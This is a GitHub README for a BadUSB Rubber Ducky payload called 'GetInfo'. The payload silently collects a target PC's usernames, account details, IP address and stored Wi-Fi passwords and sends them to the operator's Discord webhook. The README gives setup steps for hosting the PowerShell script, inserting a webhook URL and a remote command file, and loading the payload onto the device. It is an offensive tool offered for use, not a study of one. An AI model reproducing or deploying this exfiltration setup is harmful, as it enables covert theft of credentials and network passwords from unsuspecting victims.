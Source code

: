 # GetInfo - BadUSB Rubber Ducky Script

This BadUSB Rubber Ducky script is designed to swiftly collect information from a target's PC and transmit it to your personal Discord server. The script runs for approximately 3 seconds, gathering data such as username, computer name, disk location, account details, OS version, IP address, and previously signed-in Wi-Fi networks with passwords.

## How to Set Up


1. Duplicate this GitHub repository to host it online for accessibility.


2. Edit the code in the duplicated `getinfo.ps1` file to update the Discord webhook API credentials at line 7 and the URL to `command.txt` at line 9 with your specific information, EXAMPLE:
$hookUrl = "https://discord.com/api/webhooks/1200265949126142156/HOwhnUPElKBeBX7_j7WMG8-jMlimPoAM3pTlc-uZMbCESmAPCdzF7YWq1DEYqxxuroKj"
# Define command URL
$url = "Yhttps://github.com/YOUR_PATH_TO/command.txt"


3. On your BadUSB Rubber Ducky device, install the script from `RemoteHack.txt`.


4. Replace `'link-to/getinfo.ps1'` in the script with the custom hosted URL of your `.ps1` file within the duplicated GitHub repository.


5.The updated RemoteHack.txt is your new payload file.
By following these steps, you can deploy and customize the GetInfo script for your specific use case. Ensure that the Discord webhook and the URL to `command.txt` in your duplicated GitHub repository are correctly configured in the `.ps1` file for the script to function as intended, securely transmitting gathered information to your Discord server.
